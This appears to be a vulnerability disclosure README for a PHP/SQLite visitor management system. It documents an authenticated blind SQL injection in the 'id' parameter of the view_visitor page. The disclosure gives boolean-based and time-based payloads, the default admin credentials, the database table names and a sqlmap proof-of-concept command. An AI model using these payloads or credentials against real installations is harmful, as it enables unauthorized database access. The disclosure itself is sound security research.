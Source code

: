 <div align="center">
    <h1>VMS(php) Visitor Management System</h1>
    <h3>Authenticated Blind SQL Injection (View Visitor)</h3>
    <br />
    <!-- Vendor -->
    <a href="https://www.sourcecodester.com/">
        <img src="https://img.shields.io/badge/vendor-sourcecodester.com-8DD6F9?style=for-the-badge&logo=webpack" alt="Vendor: sourcecodester.com" title="Vendor: sourcecodester.com" />
    </a>
    <!-- Version & Download -->
    <a href="https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-sqlite-vms.zip">
        <img src="https://img.shields.io/badge/version-1.0-F16728?style=for-the-badge&logo=vitess" alt="Version: 1.0" title="Version: 1.0" />
    </a>
    <!-- Vulnerability -->
    <a href="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection">
        <img src="https://img.shields.io/badge/vulnerability-Blind%20SQL%20Injection-EAEAEA?style=for-the-badge&logo=owasp" alt="Blind SQL Injection" title="Blind SQL Injection" />
    </a>
    <!-- Exploit -->
    <a href="#">
        <img src="https://img.shields.io/badge/exploit-Not found-494649?style=for-the-badge&logo=hackaday" alt="Blind SQL Injection" title="Blind SQL Injection" />
    </a>
    <br />
</div>

---

## 📝 Description

VMS(php) 1.0 allows Authenticated Blind SQL Injection (Time-based & Boolean-based) via the GET parameter `id` in the `/?page=view_visitor` endpoint.

This endpoint can be triggered through the following menu: Visitor List > Action > View visitor.

## ℹ️ Information

**Default credentials**:

| Username | Password |
| --- | --- |
| admin | sourcecodester&123 |

## 💉 Injection Point

```sql
Parameter: id (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: /?page=view_visitor&id=4' AND 2488=2488 AND 'cutA'='cutA

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: /?page=view_visitor&id=4' AND 5085=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'UtVl'='UtVl
```

## 📋 Database Schema

```
[3 tables]
+-----------------+
| sqlite_sequence |
| user_list       |
| visitor_list    |
+-----------------+
```

## 🕹️ Proof of Concept

```sh
sqlmap --url 'http://localhost/?page=view_visitor&id=1' -p 'id' --dbms 'sqlite' --technique 'BT' --cookie 'PHPSESSID=9447ea9b...'
```